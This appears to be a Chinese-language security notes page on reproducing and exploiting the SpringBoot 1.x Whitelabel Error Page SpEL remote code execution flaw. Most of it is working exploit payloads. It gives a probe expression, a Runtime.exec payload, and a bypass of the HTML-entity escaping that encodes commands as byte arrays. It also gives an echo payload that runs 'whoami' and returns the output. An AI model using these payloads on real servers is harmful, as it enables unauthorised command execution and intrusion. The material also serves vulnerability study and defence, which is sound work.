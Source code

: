 前置基础
---

- SpringBoot
- SpEL

相关漏洞
---

### SpringBoot 1.x Whitelabel Error Page SpEL RCE

参考资料
- https://github.com/LandGrey/SpringBootVulExploit/
- https://github.com/spring-projects/spring-boot/issues/4763


#### 漏洞复现

payload-算术表达式
```
id=${1011+1011}
```
![image](https://user-images.githubusercontent.com/55024146/158839423-9045a29c-e31d-46e7-83ef-136caab0dc4a.png)

可见表达式被成功解析

payload-计算器
```
id=${T(java.lang.Runtime).getRuntime().exec("calc")}
```
失败，抛出异常如下

![image](https://user-images.githubusercontent.com/55024146/158841307-e68e7c5c-2ee7-4ca0-834d-10de59a227e6.png)


debug、看源码发现，在进行SpEL解析前，有以下处理
```
convertToReference:133, HtmlCharacterEntityReferences (org.springframework.web.util)
htmlEscape:90, HtmlUtils (org.springframework.web.util)
htmlEscape:63, HtmlUtils (org.springframework.web.util)
resolvePlaceholder:218, ErrorMvcAutoConfiguration$SpelPlaceholderResolver (org.springframework.boot.autoconfigure.web)
parseStringValue:147, PropertyPlaceholderHelper (org.springframework.util)
replacePlaceholders:126, PropertyPlaceholderHelper (org.springframework.util)
render:194, ErrorMvcAutoConfiguration$SpelView (org.springframework.boot.autoconfigure.web)
render:1244, DispatcherServlet (org.springframework.web.servlet)
processDispatchResult:1027, DispatcherServlet (org.springframework.web.servlet)
doDispatch:971, DispatcherServlet (org.springframework.web.servlet)
doService:893, DispatcherServlet (org.springframework.web.servlet)
processRequest:970, FrameworkServlet (org.springframework.web.servlet)
doPost:872, FrameworkServlet (org.springframework.web.servlet)
service:648, HttpServlet (javax.servlet.http)
service:846, FrameworkServlet (org.springframework.web.servlet)
service:729, HttpServlet (javax.servlet.http)
...
```

![image](https://user-images.githubusercontent.com/55024146/158843615-71270054-7003-4c7e-8b1d-ad041bdfd0af.png)

对单引号、双引号、尖括号、&进行了HTML实体编码

![image](https://user-images.githubusercontent.com/55024146/158844001-1031b338-e458-4017-b7a4-44d9017600aa.png)

如图，此时传入的payload中双引号已被编码，则不再符合SpEL表达式的语法，自然也就没法成功利用。

![image](https://user-images.githubusercontent.com/55024146/158845997-16e846c5-906f-4c00-9112-92ba85abe6b4.png)

绕过：不出现单双引号
> 利用String类的特性：将byte型数组转为字符串串对象

![image](https://user-images.githubusercontent.com/55024146/158849319-16a3c8ec-6f79-4f85-bca5-15e5b1463258.png)

```
id=${T(java.lang.Runtime).getRuntime().exec(new java.lang.String(new byte[]{99,97,108,99}))}
```
![image](https://user-images.githubusercontent.com/55024146/158850107-fabff113-b042-4e4b-8efd-eb668cd844f3.png)

测试效果

![image](https://user-images.githubusercontent.com/55024146/158850307-2077f252-0e4f-4972-b158-ce1821db3c1f.png)

#### 漏洞利用

##### 回显

```
id=${new String(T(org.springframework.util.StreamUtils).copyToByteArray(T(java.lang.Runtime).getRuntime().exec(new String(new byte[]{119,104,111,97,109,105})).getInputStream()))}
```
![image](https://user-images.githubusercontent.com/55024146/158853617-24cd3b1c-3f40-474b-9389-befca11d242c.png)

##### 内存马

> 待完成




